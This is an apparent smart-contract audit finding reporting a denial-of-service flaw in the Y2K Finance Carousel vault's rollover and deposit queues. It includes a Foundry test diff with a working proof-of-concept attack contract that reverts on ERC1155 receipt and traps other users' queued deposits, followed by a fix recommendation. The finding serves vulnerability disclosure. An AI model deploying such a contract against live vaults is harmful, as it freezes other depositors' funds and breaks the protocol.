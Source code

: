 Respx

medium

# Rollover functionality can be broken by a rogue depositing contract that reverts when in the rollover queue

## Summary
The tokens minted by the Y2K vaults, including the carousel, are of the type `ERC1155`. This type of token can be made to revert when sent to a contract. By depositing into the carousel's rollover queue with a contract, we can cause all attempts to process rollovers to revert.

## Vulnerability Detail
When `mintRollovers()` is called to process the rollover queue, it calls `_mintShares()` [on line 437](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/src/v2/Carousel/Carousel.sol#437) to create a deposit in the new epoch. This mints `ERC1155` tokens using `ERC1155.mint()`. This [calls `ERC1155._doSafeTransferAcceptanceCheck()`](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/lib/openzeppelin-contracts/contracts/token/ERC1155/ERC1155.sol#L285) which [checks whether the recipient is a contract](https://github.com/Y2K-Finance/Earthquake/blob/736b2e1e51bef6daa6a5ecd1decb7d156316d795/lib/openzeppelin-contracts/contracts/token/ERC1155/ERC1155.sol#L496-L502) and, if it is, calls `onERC1155BatchReceived()` on the recipient. If the recipient does not return `IERC1155Receiver.onERC1155BatchReceived.selector`, the transaction reverts.

It is therefore possible to have an attack contract enter into the rollover queue and then change its behaviour to revert when the vault attempts to mint tokens to it as part of processing the rollover queue.

As users can call `delistInRollover()`, this attack will not trap their funds in the rollover queue. Instead, the attack contract would simply make the rollover queue impossible to process, effectively breaking rollover functionality for the carousel.

## Impact

An attacker could effectively break rollover functionality for the carousel.


## Code Snippet
Here is a proof of concept test which I wrote for a related issue:"Queued deposits can be trapped by a rogue depositing contract that reverts when in the queue". Read through the comments for a description of the attack flow.
The reason I am including this here is that it demonstrates the essential point that any attempt to mint to the attack contract can be made to revert.
```Diff
diff --git a/test/V2/Carousel/CarouselTest.t.sol b/test/V2/Carousel/CarouselTest.t.sol
index 7caa685..71f9d47 100644
--- a/test/V2/Carousel/CarouselTest.t.sol
+++ b/test/V2/Carousel/CarouselTest.t.sol
@@ -203,6 +203,11 @@ contract CarouselTest is Helper {
     }
 
     function testDepositIntoQueueMultiple() public {
+
+        // This is the rogue attacker which will deposit and block the queue
+        NotVeryBritish attacker = new NotVeryBritish();
+        deal(UNDERLYING, address(attacker), 1000 ether, true);
+
         // test multiple deposits into queue
         uint40 _epochBegin = uint40(block.timestamp + 1 days);
         uint40 _epochEnd = uint40(block.timestamp + 2 days);
@@ -216,41 +221,75 @@ contract CarouselTest is Helper {
         helperDepositInEpochs(_epochId,USER, true);
         helperDepositInEpochs(_epochId,USER2, true);
         helperDepositInEpochs(_epochId,USER3, true);
+
+        // We can still use this helper function to make our attack contract deposit
+        // Deposit in the middle of the queue to trap some users but not others
+        helperDepositInEpochs(_epochId, address(attacker), true);
+
         helperDepositInEpochs(_epochId,USER4, true);
         helperDepositInEpochs(_epochId,USER5, true);
         helperDepositInEpochs(_epochId,USER6, true);
 
-        assertEq(vault.getDepositQueueLenght(), 6);
+        assertEq(vault.getDepositQueueLenght(), 7);
         
         // check balance of relayer
         uint256 balanceBefore = IERC20(UNDERLYING).balanceOf(address(this));
 
-        // mint deposit in queue
-        vault.mintDepositInQueue(_epochId, 6);
+        // Now set our attack contract to stop returning the correct value
+        // and so cause reverts in ERC1155._doSafeBatchTransferAcceptanceCheck()
+        attacker.setBehaviour(false);
+
+        // Attempts to process the entire queue revert
+        vm.expectRevert("ERC1155: ERC1155Receiver rejected tokens");
+        vault.mintDepositInQueue(_epochId, 7);
+
+        // We can process those who came in after the attacker
+        vault.mintDepositInQueue(_epochId, 3);
 
         // check balance of relayer
         uint256 balanceAfter = IERC20(UNDERLYING).balanceOf(address(this));
 
         // check relayer fee
-        uint256 _relayerFee = (balanceAfter - balanceBefore) / 6;
+        uint256 _relayerFee = (balanceAfter - balanceBefore) / 3;
         assertEq(_relayerFee, relayerFee);
 
         // check balances
-        assertEq(vault.balanceOf(USER, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOfEmissions(USER, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOf(USER2, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOfEmissions(USER2, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOf(USER3, _epochId), 10 ether - relayerFee);
-        assertEq(vault.balanceOfEmissions(USER3, _epochId), 10 ether - relayerFee);
+        // The first 3 users in have no balance, as they cannot be processed in the queue
+        assertEq(vault.balanceOf(USER, _epochId), 0);
+        assertEq(vault.balanceOfEmissions(USER, _epochId), 0);
+        assertEq(vault.balanceOf(USER2, _epochId), 0);
+        assertEq(vault.balanceOfEmissions(USER2, _epochId), 0);
+        assertEq(vault.balanceOf(USER3, _epochId), 0);
+        assertEq(vault.balanceOfEmissions(USER3, _epochId), 0);
+
+        // The last 3 users are fine
         assertEq(vault.balanceOf(USER4, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOfEmissions(USER4, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOf(USER5, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOfEmissions(USER5, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOf(USER6, _epochId), 10 ether - relayerFee);
         assertEq(vault.balanceOfEmissions(USER6, _epochId), 10 ether - relayerFee);
+
+        // The deposit queue has the funds of our 3 trapped depositors and also the attack contract:
+        assertEq(vault.getDepositQueueTVL(), 40 ether);        
+        
+        //Let's take a closer look at our first trapped user, USER:
+        // No tokens for the zero epoch, of course, as they don't get minted:
+        assertEq(vault.balanceOf(USER, 0), 0);
+        // No tokens for the current epoch, as tested before:
+        assertEq(vault.balanceOf(USER, _epochId), 0);
+
+        // The funds cannot be withdrawn for epoch 0 as they are linked to an epoch that has not resolved
+        // (and the _burn would fail anyway as no tokens were ever minted)
+        vm.startPrank(USER);
+        vm.expectRevert(VaultV2.EpochNotResolved.selector);
+        vault.withdraw(0 , 10 ether, USER, USER);
+        vm.stopPrank();
+
     }
 
     function testRolloverMultiple() public {
+
         // test multiple rollovers
         // roll over users from testDepositIntoQueueMultiple test
         testDepositIntoQueueMultiple();
@@ -378,4 +417,39 @@ contract CarouselTest is Helper {
     }

+}
+
+contract NotVeryBritish {
+// (British people are good at queueing.)
+
+    bytes4 public successValue = bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"));
+    bool public goodBehaviour = true;
+    /*
+     * NOTE: To accept the transfer, this must return
+     * `bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"))`
+     * (i.e. 0xf23a6e61, or its own function selector).
+     *
+     * @param operator The address which initiated the transfer (i.e. msg.sender)
+     * @param from The address which previously owned the token
+     * @param id The ID of the token being transferred
+     * @param value The amount of tokens being transferred
+     * @param data Additional data with no specified format
+     * @return `bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"))` if transfer is allowed
+     */
+    function onERC1155Received(
+        address ,
+        address ,
+        uint256 ,
+        uint256 ,
+        bytes calldata 
+    ) external view returns (bytes4) {
+        return goodBehaviour ? successValue : bytes4(keccak256("fail"));
+    }
+
+    function setBehaviour(bool _behaviour) external {
+        goodBehaviour = _behaviour;
+    }
+
+    receive() external payable {}
+    fallback() external payable {}
 }
\ No newline at end of file
```
(Note: we use `forge`'s ability to send transactions direct from contracts to make the deposit process simple, but it would of course be possible to build functions in the attack contract which make it call the deposit() function on the carousel vault.)
 
## Tool used

Manual Review

## Recommendation

Consider adding a function with the `onlyFactory` modifier which can delist entries from the rollover queue.